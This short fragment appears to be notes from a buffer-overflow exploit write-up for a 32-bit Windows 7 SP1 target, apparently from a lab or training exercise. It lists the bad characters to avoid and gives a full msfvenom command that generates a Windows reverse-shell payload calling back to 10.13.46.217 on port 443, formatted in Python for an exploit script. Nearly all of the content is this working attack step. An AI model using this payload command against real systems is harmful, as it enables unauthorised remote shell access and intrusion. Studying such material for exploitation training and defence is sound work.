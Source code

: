 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\x23\x3c\x83\xba

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\x23\x3c\x83\xba" -v esp -f python
